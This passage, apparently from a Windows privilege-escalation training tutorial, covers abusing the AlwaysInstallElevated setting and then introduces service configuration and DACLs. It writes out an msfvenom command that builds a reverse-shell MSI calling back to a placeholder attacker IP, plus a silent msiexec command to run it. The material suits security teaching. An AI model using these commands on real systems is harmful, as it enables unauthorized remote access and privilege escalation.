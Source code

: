 To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:
`
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

Command Prompt
`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

# Abusing Service Misconfigurations
## Windows Services

Windows services are managed by the **Service Control Manager (SCM)**. The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:


Command Prompt

```bash
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem

        
```

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker (available on your machine's desktop):
